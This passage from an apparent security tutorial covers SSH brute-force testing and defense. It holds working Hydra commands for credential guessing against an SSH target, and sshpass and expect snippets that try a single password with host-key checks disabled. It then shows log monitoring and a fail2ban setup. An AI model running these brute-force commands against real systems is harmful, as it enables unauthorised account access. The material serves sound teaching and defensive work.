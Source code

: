 #### 2. Logging and Output
```bash
# Save results to file
hydra -L users.txt -P passwords.txt ssh://<IP> -o results.txt

# Detailed logging
hydra -L users.txt -P passwords.txt ssh://<IP> 2>&1 | tee hydra.log
```

#### 3. Testing Single Credential
```bash
# Quick test before full brute force
sshpass -p 'password' ssh -o StrictHostKeyChecking=no user@<IP>

# Or with expect
expect << EOF
spawn ssh user@<IP>
expect "password:"
send "password\r"
expect eof
EOF
```

### Defense Against SSH Brute Force

#### Monitor Failed Attempts
```bash
# View failed SSH attempts
sudo grep "Failed password" /var/log/auth.log | tail -20

# Count failed attempts by IP
sudo grep "Failed password" /var/log/auth.log | \
  awk '{print $(NF-3)}' | sort | uniq -c | sort -rn
```

#### Implement Fail2Ban
```bash
# Install
sudo apt install fail2ban -y

# Configure
sudo nano /etc/fail2ban/jail.local

[sshd]
enabled = true
port = ssh
filter = sshd
logpath = /var/log/auth.log
maxretry = 3
bantime = 3600
findtime = 600

# Restart
sudo systemctl restart fail2ban
sudo fail2ban-client status sshd
```
